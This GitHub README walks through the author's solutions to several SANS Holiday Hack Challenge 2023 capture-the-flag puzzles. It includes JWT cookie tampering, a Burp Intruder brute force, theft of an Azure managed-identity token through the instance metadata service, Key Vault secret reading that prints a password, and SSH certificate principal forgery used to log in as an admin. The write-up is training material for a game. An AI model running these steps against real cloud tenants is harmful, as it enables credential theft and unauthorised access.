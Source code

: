 # S~~ANS~~ Holiday-Hack-Challenge-2023
 
<img width="800" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/d051e195-083b-431e-903d-cc42be8bcb79">  

<div align="center">
 
 
   | Christmas Island | 
   |     :---:      |
   | Snowball Fight      |
   | Linux 101      |
   | Reportinator   |
   | Azure 101     |
   | Elf Hunt    |
   | Certificate SSHenanigans     |
   | The Captain's Comms    |
   | Active Directory     |
</div>

## Christmas Island: Orientation
### Holiday Hack Orientation
Difficulty: 🎄

Talk to Jingle Ringford on Christmas Island and get your bearings at Geese Islands

<details>
<img width="477" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f446a59b-8aec-4e4f-9a3d-7220f1fc2821">

### Items Gathered
![image](https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/4147c58c-cb62-4135-80d1-ece769d27c12) <b> Fishing Pole - Just a humble rod and reel. Perfect for catching all manner of aquatic life. </b>
</details>

## Christmas Island: Frosty's beach

> [!TIP]
> Hints: Synthesis is the True Ending
> From: Santa
> The AI revolution has begun. Some of the most prominent and useful tools born from the advent of powerful AI include ChatGPT, PlayHT, Midjourney, Dall-E 3, Bing AI, and Bard, and Grok.

### Snowball Fight
Difficulty: 🎄🎄

Visit Christmas Island and talk to Morcel Nougat about this great new game. Team up with another player and show Morcel how to win against Santa!

<details>
<summary>Solution</summary>
Elves and Santa got you down? Unlock a secret weapon hidden in the game's code: a dwarf named Jared (yes, really) ready to bring the pain!

Here's the cheat code:

Hack the mainframe: Open your dev tools console and flip the 'singlePlayer' switch to 'true'. Think of it as inviting a bearded buddy to your party.
Cue the epic entrance: Prepare for a glorious fanfare as Jared makes his debut, complete with a custom sound effect and toast notification.
Unleash the dwarf power: With Jared on your team, even Santa's belly will jiggle with fear. Those elves won't know what hit them!
Remember: Keep it in the same browser window – no need to open new tabs for this hack.

Get ready to rumble, because this dwarf is about to bring the blizzard!

### Code Analysis:
The code appears to introduce a character (Elf the dwarf, jokingly referred to as Jared) into the game when in single-player mode.First, a sound effect named 'elf_the_dwarf_is_here' is played if audio is enabled. Next, a toast message appears on the screen saying "Elf the dwarf has joined your team!" for a short duration. Finally, a new game sprite named 'jaredSprite' is created at a specific position. All indicating we need the Dwarf.

View the source code of the game 
<img width="739" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/53a6d875-2c45-47e0-bf53-4788b72f4158">


```// Check if it's single-player mode
    // jared ... I mean Elf the dwarf joins the fight when in single player mode
       if (singlePlayer === 'true') {
          setTimeout(() => {
            if (isaudio) {
              gameSceneObject.sound.play('elf_the_dwarf_is_here', { volume: 0.5 });
            }
            toastManager.showToast("Elf the dwarf has joined your team!", duration=500, delay=5000);
            jaredSprite = gameSceneObject.physics.add.sprite(starting_pos.x + 150, starting_pos.y, 'jaredSprite');
```

### Working towards Victory: 
We have to change singlePlayer parameter to true and reload game. 
> [!IMPORTANT]
> Do not play this game in a seperate tab or windows of your browser you have to complete this challenge in the same page with the help of developer tools console.

> https://hhc23-snowball.holidayhackchallenge.com/room/?username=<>&roomId=201e0e461&roomType=public&gameType=co-op&id=18fed30a-a96a-47c2-a697-86c6d3a4b0bb&dna=<>&singlePlayer=false

 <img width="1000" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3fed0b55-4771-43a1-9045-076875fe1719">

##### Steps:
1. Open Developer console and change the frame to the game room
   
<img width="241" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/634c5fa8-78d0-4b6b-9a04-d4b4a50280cd">

2. Choose play game with random players and once the game room loads check the current loaded URL "window.location.href"
   
3. Use the below javascript which changes the "SinglePlayer" parameter to true and loads the frame again.
  
4. Now you have Dwarf the elf on your team. Playing the game is made easier.

````
// Get the current URL
var url = new URL(window.location.href);

// Update the 'singlePlayer' parameter to 'true'
url.searchParams.set('singlePlayer', 'true');

// Reload the frame with the modified URL
window.location.href = url.href;
````
</details>

## Christmas Island: Frosty's beach

### Linux 101
Difficulty: 🎄🎄
Visit Ginger Breddie in Santa's Shack on Christmas Island to help him with some basic Linux tasks. It's in the southwest corner of Frosty's Beach.

Dust off your Linux beard and let's work on the festive tasks frenzy! 

<details>
<summary>Solution</summary>
 
````
Perform a directory listing of your home directory to find a troll and retrieve a present!
_________________________________________________________________________________________________
elf@5338c71bd631:~$ ls
HELP  troll_19315479765589239  workshop
````
````
Now find the troll inside the troll.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ cat troll_19315479765589239 
troll_24187022596776786
````
````
Great, now remove the troll in your home directory.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ rm troll_19315479765589239
````
````
Print the present working directory using a command.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ pwd
/home/elf
````
````
Good job but it looks like another troll hid itself in your home directory. Find the hidden troll!
_________________________________________________________________________________________________
elf@5338c71bd631:~$ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .profile  .troll_5074624024543078  HELP  workshop
````
````
Now find troll in your command history
_________________________________________________________________________________________________
elf@5338c71bd631:~$ history
````
````
Find the troll in your environment variables.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ env
````
````
Next, head into the workshop.
_________________________________________________________________________________________________
elf@5338c71bd631:~$ cd workshop/
````
````
A troll is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the troll is in.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ grep -i "troll" ~/workshop/*
grep: /home/elf/workshop/electrical: Is a directory
/home/elf/workshop/toolbox_191.txt:tRoLl.4056180441832623
````
````
A troll is blocking the present_engine from starting. Run the present_engine binary to retrieve this troll.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ ls -l  | grep *present*
-r--r--r-- 1 elf elf 4990336 Dec  2 22:19 present_engine
elf@5338c71bd631:~/workshop$ chmod +x present_engine 
elf@5338c71bd631:~/workshop$ ls -l  | grep *present*
-r-xr-xr-x 1 elf elf 4990336 Dec  2 22:19 present_engine
elf@5338c71bd631:~/workshop$ ./present_engine 
troll.898906189498077
````
````
Trolls have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop$ cd electrical
elf@5338c71bd631:~/workshop/electrical$ ls
blown_fuse0
elf@5338c71bd631:~/workshop/electrical$ mv blown_fuse0 fuse0
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0
````
````
Now, make a symbolic link (symlink) named fuse1 that points to fuse0
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop/electrical$ ln -s fuse0 fuse1
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0  fuse1
````
````
Make a copy of fuse1 named fuse2.
_________________________________________________________________________________________________
elf@5338c71bd631:~/workshop/electrical$ cp fuse1 fuse2
elf@5338c71bd631:~/workshop/electrical$ ls
fuse0  fuse1  fuse2
````
````
We need to make sure trolls don't come back. Add the characters "TROLL_REPELLENT" into the file fuse2.
_________________________________________________________________________________________________
[elf@5338c71bd631:~/workshop/electrical$ nano fuse2
````
````
Find the troll somewhere in /opt/troll_den.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ find /opt/troll_den/ -iname '*troll*'
````
````
Find the file somewhere in /opt/troll_den that is owned by the user troll.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ find /opt/troll_den -type f -user troll
````
````
Find the file created by trolls that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/troll_den.
_________________________________________________________________________________________________
find /opt/troll_den  -size +108k -size -110k
````
````
List the process running
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
init           1  0.0  0.0  20112 16296 pts/0    Ss+  05:39   0:00 /usr/bin/python3 /usr/local/bin/tmuxp load ./mysession.yaml
elf        14636  0.1  0.1  31520 26736 pts/2    S+   06:04   0:00 /usr/bin/python3 /14516_troll
elf        15593  0.0  0.0   7672  3236 pts/3    R+   06:05   0:00 ps aux
````

````
The 14516_troll process is listening on a TCP port. Use a command to have the only listening port display to the screen.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ netstat -tuln
````
````
The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last troll.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ curl 0.0.0.0:54321
````
````
Your final task is to stop the 14516_troll process to collect the remaining presents.
_________________________________________________________________________________________________
elf@fc2a0ee85df8:/opt/troll_den$ kill 14636
````
${\color{pink}Congratulations, you caught all the trolls and retrieved all the presents!
Type "exit" to close...}$

</details>

## Christmas Island: Rudolph's Resort
### Reportinator
Difficulty: 🎄🎄

How well do you know your pentest reports?

<details>
<summary>Solution</summary>
Noel Boetie used ChatNPT to write a pentest report. Go to Christmas Island and help him clean it up.
Reportinator

Ho ho ho! This report's got vulnerabilities listed like Santa's Naughty & Nice. Reading through is always good, but wouldn't a clever trick be nice? There's another way to solve this puzzle, so sharpen your coding elf ears and listen up!

### Technique
There is a POST request with payload data for the 9 questions asked where 1 indicates false and 0 indicates true. With the help of Burpsuite we will first intercept the request and then pass it over to Intruder which would help with all the probable combinations for the correct answer.

#### Steps
1. Load the reportinator webpage and click on submit review directly. You will observe a POST request sent to https://hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com/check as below

   <img width="359" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/9b70534a-2edc-4f71-af70-a0d7e33613fa">

2. Add payload marker to the value of the parameter input as below. Choose Clusterbomb attack [Check all permutation of payload combination] now fill all the 9 payload set with our combination of 0 and 1.

   <img width="506" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/022888ba-fe19-4c1c-b5bd-8cab0e0021fb">

3. Lauch the attack and observe one of the response will have 200 response status code.

   <img width="547" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3f5e3ac8-7754-4867-afea-b4734deda8eb">

4. Now work the combination on the report and get the task completed.

</details>

Noel Boetie says "Great job on completing that challenge! Ever thought about how your newfound skills might come into play later on? Keep that mind sharp, and remember, today's victories are tomorrow's strategies!"

It truly does help you later 🤯

### Azure 101
Difficulty: 🎄🎄

Help Sparkle Redberry with some Azure command line skills. Find the elf and the terminal on Christmas Island.

> [!TIP]
> Azure CLI Reference
> 
> From: Sparkle Redberry
> 
> Terminal: Azure 101
> 
> The Azure CLI tools come with a builtin help system, but Microsoft also provides this handy [cheatsheet](https://learn.microsoft.com/en-us/cli/azure/reference-index?view=azure-cli-latest.

Before you get too comfy, why not give your Azure CLI skills a festive brush-up? 

<details>
<summary>Solution</summary>

````
 You may not know this but the Azure cli help messages are very easy to access. First, try typing:
$ az help | less
````
````
Next, you've already been configured with credentials. Use 'az' and your 'account' to 'show' your current details and make sure to pipe to less ( | less )
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az account -h list
The client 'f17559a4-d8a2-4661-ba0f-c04f8cf2926d' with object id '8deacb33-214d-4d94-9ab4-d27768410f17' does not have authorization to perform action 'Microsoft.Compute/virtualMachines/read' over scope '/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64' or the scope is invalid. If access was recently granted, please refresh your credentials.
````
````
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az account alias show
````
````
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az group list
[
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1",
    "location": "eastus",
    "managedBy": null,
    "name": "northpole-rg1",
    "properties": {
      "provisioningState": "Succeeded"
    },
    "tags": {}
  },
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg2",
    "location": "westus",
    "managedBy": null,
    "name": "northpole-rg2",
    "properties": {
      "provisioningState": "Succeeded"
    },
    "tags": {}
  }
]
````
````
Ok, now use one of the resource groups to get a list of function apps. For more information:
https://learn.microsoft.com/en-us/cli/azure/functionapp?view=azure-cli-latest
Note: Some of the information returned from this command relates to other cloud assets used by Santa and his elves.
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az functionapp list  -g northpole-rg1 | less

[
  {
    "appServicePlanId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/nor
thpole-rg1/providers/Microsoft.Web/serverfarms/EastUSLinuxDynamicPlan",
    "availabilityState": "Normal",
    "clientAffinityEnabled": false,
    "clientCertEnabled": false,
    "clientCertExclusionPaths": null,
    "clientCertMode": "Required",
    "cloningInfo": null,
    "containerSize": 0,
    "customDomainVerificationId": "201F74B099FA881DB9368A26C8E8B8BB8B9AF75BF450AF717502AC151F59
DBEA",
    "dailyMemoryTimeQuota": 0,
   ** "defaultHostName": "northpole-ssh-certs-fa.azurewebsites.net",**
    "enabled": true,
    "enabledHostNames": [
     ** "northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "extendedLocation": null,
    "hostNameSslStates": [
      {......................................
        }
    ],
    "hostNames": [
     ** "northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    **"id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/pro
viders/Microsoft.Web/sites/northpole-ssh-certs-fa",**
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
    "inProgressOperationId": null,
    "isDefaultContainer": null,
    "isXenon": false,
    "keyVaultReferenceIdentity": "SystemAssigned",
    "kind": "functionapp,linux",
    "lastModifiedTimeUtc": "2023-11-09T14:43:01.183333",
    "location": "East US",
    "maxNumberOfWorkers": null,
    "name": "northpole-ssh-certs-fa",
    "outboundIpAddresses": "",
    "possibleOutboundIpAddresses": "",
    "publicNetworkAccess": null,
    "redundancyMode": "None",
   ** "repositorySiteName": "northpole-ssh-certs-fa",**
    "reserved": true,
    "resourceGroup": "northpole-rg1",
    "scmSiteAlsoStopped": false,
    "siteConfig": {
      "acrUseManagedIdentityCreds": false,
      "acrUserManagedIdentityId": null,
      "alwaysOn": false,
      "antivirusScanEnabled": null,
      "apiDefinition": null,
      "apiManagementConfig": null,
      "appCommandLine": null,
      "appSettings": null,
      .
      .
      .
      .
      .
      .
      },
    "slotSwapStatus": null,
    "state": "Running",
    "storageAccountRequired": false,
    "suspendedTill": null,
    "tags": {
      **"create-cert-func-url-path": "/api/create-cert?code=candy-cane-twirl",**
      "project": "northpole-ssh-certs"
    },
    "targetSwapSlot": null,
    "trafficManagerHostNames": null,
    "type": "Microsoft.Web/sites",
    "usageState": "Normal",
    "virtualNetworkSubnetId": null,
    "vnetContentShareEnabled": false,
    "vnetImagePullEnabled": false,
    "vnetRouteAllEnabled": false
  }
]
````
````
Find a way to list the only VM in one of the resource groups you have access to.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm?view=azure-cli-latest
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az vm list -g northpole-rg2 | less

[
  {
    "id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg2/providers/Microsoft.Compute/virtualMachines/NP-VM1",
    "location": "eastus",
    "name": "NP-VM1",
    "properties": {
      "hardwareProfile": {
        "vmSize": "Standard_D2s_v3"
      },
      "provisioningState": "Succeeded",
      "storageProfile": {
        "imageReference": {
          "offer": "UbuntuServer",
          "publisher": "Canonical",
          "sku": "16.04-LTS",
          "version": "latest"
        },
        "osDisk": {
          "caching": "ReadWrite",
          "createOption": "FromImage",
          "managedDisk": {
            "storageAccountType": "Standard_LRS"
          },
          "name": "VM1_OsDisk_1"
        }
      },
      "vmId": "e5f16214-18be-4a31-9ebb-2be3a55cfcf7"
    },
    "resourceGroup": "northpole-rg2",
````
````
Find a way to invoke a run-command against the only Virtual Machine (VM) so you can RunShellScript and get a directory listing to reveal a file on the Azure VM.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az-vm-run-command-invoke
_________________________________________________________________________________________________
elf@8db4fd157ccd:~$ az vm run-command invoke -g northpole-rg2 -n NP-VM1 --command-id RunShellScript --scripts 'ls'
{
  "value": [
    {
      "code": "ComponentStatus/StdOut/succeeded",
      "displayStatus": "Provisioning succeeded",
      "level": "Info",
      "message": "bin\netc\nhome\njinglebells\nlib\nlib64\nusr\n",
      "time": 1705438837
    },
    {
      "code": "ComponentStatus/StdErr/succeeded",
      "displayStatus": "Provisioning succeeded",
      "level": "Info",
      "message": "",
      "time": 1705438837
    }
  ]
}
````
${\color{green}Great,you did it all!}$
</details>

## Christmas Island: Resort Lobby
> [!TIP]
> Remember: Pepper Minstix "After you complete all the challenges, come back here for a surprise!"

## Pixel Island: 

### Elf Hunt
Difficulty: 🎄🎄🎄

Piney Sappington needs a lesson in JSON web tokens. Hack Elf Hunt and score 75 points.

> [!TIP]
> JWT Secrets Revealed
> 
> From: Piney Sappington
> 
> Terminal: Elf Hunt
> 
> Unlock the mysteries of JWTs with insights from PortSwigger's JWT Guide.

<details>
<summary>Solution</summary>

JWT Decode and hack! Shortcut or deep dive? Both paths welcome, single-tab battleground, awaits!

## Intended Way
1. Lauch developer console and naviagate to Apllication tab which reveals a cookie for doamin https://elfhunt.org named "ElfHunt_JWT" 
2. Copy the JWT Cookie and navigate to https://token.dev/ when decoded reveals "speed: -500". modify the speddy to -50 and copy the modified JWT token.

### Before Modifying
<img width="668" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f218cdac-14bb-4726-8635-978aa3adf9f3">

### After modifying
<img width="656" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/c71f2210-c789-46e8-b80b-60e9b6c103b4">

3. Go to developer console --> Application --> Cookies --> https://elfhunt.org.
4. Right click edit value and paste the new token.
5. Since all of this have to be done within the same tab. After modifying the token Go to developer console --> select elfhung.org and then type window.location.reload(); which will reload the iframe where hte game is loaded.

<img width="501" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/e210d1c5-e58d-4223-949e-685145377944">

6. Now observe the elves are moving very slow which makes it easy to shoot and score above 75.
7. Upon wining the challenge we get a note which belongs to Alabaster Snowball 
   
   <img width="339" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/81cf67de-301f-4db7-b3ee-d308474ab458">

## Alternative Way

On the source code of the elf challenge we can see that there is a variable called score. If the score is 75 or higher, it updates the sessionJWT and stores it in a cookie. It pauses the game scene. So let's set the score as 80 and we win the game.

<img width="834" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/3537280c-5134-4f16-b28c-049f4121b315">


</details>

### Certificate SSHenanigans
Difficulty: 🎄🎄🎄🎄🎄

Go to Pixel Island and review Alabaster Snowball's new SSH certificate configuration and Azure [Function App](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) . What type of cookie cache is Alabaster planning to implement?

Certifiably Secure & Slightly Shell-arious. A Whimsical Intro to Secure Shell Certificates
Speaker(s): Thomas Bouve
A practical introduction to secure shell certificates and how to upgrade your existing SSH server configuration.
[Click here to watch this talk!](https://www.youtube.com/watch?v=4S0Rniyidt4)

<details>
<summary>Solution</summary>

The tasks gives an idea on how to use SSH certificate to authenticate to a remote server.

Alabaster introduces his gleaming Azure server at ssh-server-vm.santaworkshopgeeseislands.org. Inspired by ChatNPT's ingenious suggestion to upgrade using SSH certificates, Alabaster is eager to share the magic. 

${\color{green}"Generate a certificate," he suggests, "use the monitor account to access the host, and let me know if my TODO list is within reach."}$
 
1. Let's create a SSH certificate from the machine which would use to access the server.
   
   <img width="441" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/f4ed0c57-b6c0-498a-9f84-c87a1812dead">


2. Now copy the public key contents and paste it in https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl. The certificate will be signed and response would have the signed pub key.

<img width="687" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/e6ebc809-4564-4ca3-a6e7-e08a3ad4e852">


3. Copy only the necessary portion of the certificate highlighted in blue and now update your exisiting certificate using the new signed pub key.

<img width="950" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/0698166a-fa23-4564-9de6-593bdb47262a">

4. Now SSH to the remote server with the private key using the monitor account.

````
   ┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni monitor@ssh-server-vm.santaworkshopgeeseislands.org 
monitor@ssh-server-vm:~$ whoami
monitor
````
5. The below hint shows that we have to gather information using the Azure Web/Function App deployed in the server hence let's start with that.

> [!TIP]
> Azure Function App Source Code
> From: Alabaster Snowball
> Objective: Certificate SSHenanigans
> The [get-source-control](https://learn.microsoft.com/en-us/rest/api/appservice/web-apps/get-source-control?view=rest-appservice-2022-03-01) Azure REST API endpoint provides details about where an Azure Web App or Function App is deployed from.

6. One  of our previous Task "Azure 101" we found a function app so that could be a good start. 

````
elf@8db4fd157ccd:~$ az functionapp list  -g northpole-rg1 | less

[
  {
    "appServicePlanId": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/nor
thpole-rg1/providers/Microsoft.Web/serverfarms/EastUSLinuxDynamicPlan",
    "availabilityState": "Normal",
    "clientAffinityEnabled": false,
    "clientCertEnabled": false,
    "clientCertExclusionPaths": null,
    "clientCertMode": "Required",
    "cloningInfo": null,
    "containerSize": 0,
    "customDomainVerificationId": "201F74B099FA881DB9368A26C8E8B8BB8B9AF75BF450AF717502AC151F59
DBEA",
    "dailyMemoryTimeQuota": 0,
   **"defaultHostName": "northpole-ssh-certs-fa.azurewebsites.net",**
    "enabled": true,
    "enabledHostNames": [
     **"northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "extendedLocation": null,
    "hostNameSslStates": [
      {......................................
        }
    ],
    "hostNames": [
     **"northpole-ssh-certs-fa.azurewebsites.net"**
    ],
    "hostNamesDisabled": false,
    "hostingEnvironmentProfile": null,
    "httpsOnly": false,
    "hyperV": false,
    **"id": "/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/pro
viders/Microsoft.Web/sites/northpole-ssh-certs-fa",**
    "identity": {
      "principalId": "d3be48a8-0702-407c-89af-0319780a2aea",
      "tenantId": "90a38eda-4006-4dd5-924c-6ca55cacc14d",
      "type": "SystemAssigned",
      "userAssignedIdentities": null
    },
````

7. Since AZI CLI is not in the host we use CURL and it retured me an error that the authorization header is missing.
  The header should look like: "Authorization: Bearer <your-access-token>"

````    
monitor@ssh-server-vm:/home$ curl -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   115  100   115    0     0    603      0 --:--:-- --:--:-- --:--:--   602
{
  "error": {
    "code": "AuthenticationFailed",
    "message": "Authentication failed. The 'Authorization' header is missing."
  }
}
````

Reference: 
https://learn.microsoft.com/en-us/entra/identity/managed-identities-azure-resources/how-to-use-vm-token#get-a-token-using-curl

````
monitor@ssh-server-vm:/home$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' -H Metadata:true -s | jq
{
  "access_token": "eyJ0eXAiOiJKV1Q******************cig",
  "client_id": "b84e06d3-aba1-4bcc-9626-2e0d76cba2ce",
  "expires_in": "84827",
  "expires_on": "1705609969",
  "ext_expires_in": "86399",
  "not_before": "1705523269",
  "resource": "https://management.azure.com/",
  "token_type": "Bearer"
}
````
8. For ease the token has been assigned to a variable az_token and the curl request was sent again, we see a github repo url over there.

````
monitor@ssh-server-vm:/home$ curl -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.Web/sites/northpole-ssh-certs-fa/sourcecontrols/web?api-version=2022-03-01" \
-H "Authorization: Bearer $az_token" | jq
 ````

9. After reading throught the python file the Key vault got me curious and let's find the vault URL probably that's were the TODO List lies. We have the Vault URL by running below command

Reveals Vault URL
````
monitor@ssh-server-vm:/usr$ curl -H "Authorization: Bearer $az_token" -X GET "https://management.azure.com/subscriptions/2b0942f3-9bca-484b-a508-abdae2db5e64/resourceGroups/northpole-rg1/providers/Microsoft.KeyVault/vaults?api-version=2019-09-01" | jq
````
Generate a token for vault.azure.net to access content in Vault URL
````
monitor@ssh-server-vm:~$ curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -H Metadata:true -s | jq
````
Reveals Secret path
````
monitor@ssh-server-vm:~$ curl -H "Authorization: Bearer $az_vault" -X GET "https://northpole-it-kv.vault.azure.net/secrets?api-version=2016-10-01" | jq
````
Reveals secrets in the Vault 
````
monitor@ssh-server-vm:~$ curl -H "Authorization: Bearer $az_vault" -X GET "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript?api-version=2016-10-01" | jq
````

Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString \"J4`ufC49/J4766\" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru

************ The END this lead me no where for now ***************************************************************

Let's relook again what to do to get the TODO List 🤨

10. I had a look at the function app python code and got curious about "principal". The video of Thomas Bouve gives information about principals and that got me to verify that alabaster has pricipal as admin and monitor has prinicipal as elf. So we have to create a SSH certificate with principal as elf.  

````
monitor@ssh-server-vm:/etc/ssh/auth_principals$ ls
alabaster  monitor
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat alabaster 
admin
monitor@ssh-server-vm:/etc/ssh/auth_principals$ cat monitor
elf
````
11. Revisiting the [portal](https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl) and looked at the response which had a parameter "principal". How about we try the "principal" as admin in the request and see if the response shows the principal as admin.

<img width="740" alt="image" src="https://github.com/Miragle-Hub/Holiday-Hack-Challenge-2023---SANS/assets/128744976/35022dca-21be-4430-83de-90ba915a695f">

Sure, it did now we have a SSH certificate with admin principal so we can SSH as alabaster into the host ssh-server-vm.santaworkshopgeeseislands.org.

12. Modify the exisiting public key with the newly generated public key and SSH into the server as alabaster. List the content in home directory and finally we have the TODO List.

````
 ┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:~$ 
````
````
┌──(kali㉿kali)-[~/SSHenanigans]
└─$ ssh -i moni alabaster@ssh-server-vm.santaworkshopgeeseislands.org
alabaster@ssh-server-vm:~$ ls
alabaster_todo.md  impacket
